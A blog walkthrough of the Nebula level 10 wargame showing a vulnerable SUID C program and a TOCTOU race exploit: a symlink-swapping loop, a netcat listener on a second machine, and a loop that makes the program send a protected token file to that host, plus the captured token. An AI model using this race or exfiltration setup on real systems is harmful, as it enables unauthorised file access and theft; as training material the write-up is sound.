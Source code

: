 ```yaml
---
title: "Exploit Exercises - Nebula 10"
date: "2011-12-11T07:48:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-nebula-10.html"
---
```


[Challenge 10](http://exploit-exercises.com/nebula/level10) is another nostalgic one for me. Back when I was first starting with linux, I remember reading about overflows and race conditions.  This challenge is the latter, a race condition. 

<!-- more -->

We're given a C/C++ app to exploit:

```
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
 char *file;
 char *host;

 if(argc < 3) {
  printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
  exit(1);
 }

 file = argv[1];
 host = argv[2];

 if(access(argv[1], R_OK) == 0) {
  int fd;
  int ffd;
  int rc;
  struct sockaddr_in sin;
  char buffer[4096];

  printf("Connecting to %s:18211 .. ", host); fflush(stdout);

  fd = socket(AF_INET, SOCK_STREAM, 0);

  memset(&sin, 0, sizeof(struct sockaddr_in));
  sin.sin_family = AF_INET;
  sin.sin_addr.s_addr = inet_addr(host);
  sin.sin_port = htons(18211);

  if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
   printf("Unable to connect to host %s\n", host);
   exit(EXIT_FAILURE);
  }

#define HITHERE ".oO Oo.\n"
  if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
   printf("Unable to write banner to host %s\n", host);
   exit(EXIT_FAILURE);
  }
#undef HITHERE

  printf("Connected!\nSending file .. "); fflush(stdout);

  ffd = open(file, O_RDONLY);
  if(ffd == -1) {
   printf("Damn. Unable to open file\n");
   exit(EXIT_FAILURE);
  }

  rc = read(ffd, buffer, sizeof(buffer));
  if(rc == -1) {
   printf("Unable to read from file: %s\n", strerror(errno));
   exit(EXIT_FAILURE);
  }

  write(fd, buffer, rc);

  printf("wrote file!\n");

 } else {
  printf("You don't have access to %s\n", file);
 }
}
```

The problem with this code, is that it first checks to see if the user running the problem has access to the file (on line 24).  It then assumes for the rest of the execution of the program, that we *still* have access to it.  The point of this exercise is to trick the program by switching out the file while the program is running.  Hence a race condition. 

To set this one up, I used 2 machines, my Nebula machine, and another VM running [BackTrack Linux](http://www.backtrack-linux.org).  Any Linux should do, I just had this one handy.  The only requirement is [NetCat](http://nc110.sourceforge.net). 

On the BackTrack machine (10.1.1.132 for me), I ran 2 terminals.  The first contained:

```
root@bt:~# while :; do nc -l -p 18211 >> out.txt; done
```

The second contained:

```
root@bt:~# tail -f out.txt | grep -v ".oO Oo."
```

I ran both of these so that the first one would continuously open up a listening socket connection on port 18211 (per the vulnerable program), and append all information received to "out.txt".  The second command would continuously watch out.txt and output any lines that didn't have the little banner the vulnerable program uses.  That way I didn't get spammed with trash I didn't care about. 

Now on the Nebula machine, I ran 2 more terminals.  In the first, I ran:

```
level10@nebula:~$ while :; do ln -fs /tmp/token /tmp/token10; ln -fs /home/flag10/token /tmp/token10; done
```

And the second:

```
level10@nebula:~$ while :; do nice -n 20 ./flag10 /tmp/token10 10.1.1.132; done
```

These commands are pretty simple to pick apart.  They both are endless loops, just like the earlier NetCat session.  The first would create a symbolic link to /tmp/token10.  However, it would alternate between using /tmp/token (a blank file I made), and /home/flag10/token.  The idea is to try using /tmp/token when the access() is called in the vulnerable program, but then have /home/flag10/token be there when we actually send the file.  It's unreliable, but will eventually work.  The second command runs the vulnerable program, passing it the symlinked file and the BackTrack IP.  I used [nice](http://linux.about.com/library/cmd/blcmdl1_nice.htm), to lower the priority as low as possible, so that hopefully the symlinking loop would operate faster. 

When you have all of these terminals running, it's just a matter of time before you get the token sent to you.  Some iterations of flag10 will fail, some will succeed.  Just watch the second terminal on the BackTrack machine, and eventually you'll see the token come over.  You should see this flying across the screen:

>615a2ce1-b2b5-4c76-8eed-8aa5c4015c27

Just stop all the terminals, and you should be done with this challenge.  I did learn quite a bit on this one, as it was honestly my first race condition I'd ever had to exploit.  My original methodology was to use [GDB](http://www.gnu.org/s/gdb/) to start the program, and set a breakpoint after the initial access() was done.  Then switch the file manually, and resume.  This worked brilliantly, however I learned that when dealing with SUID programs, you can't use GDB on them, unless you run GDB as root.  This is a security design of Linux.  So instead, I had to go with the quirky commands.  I'm still interested in seeing if it could be done with a custom C++ app which would invoke flag10, and attach to the process using ptrace to duplicate my GDB idea.  I just don't know if it'll work or not.

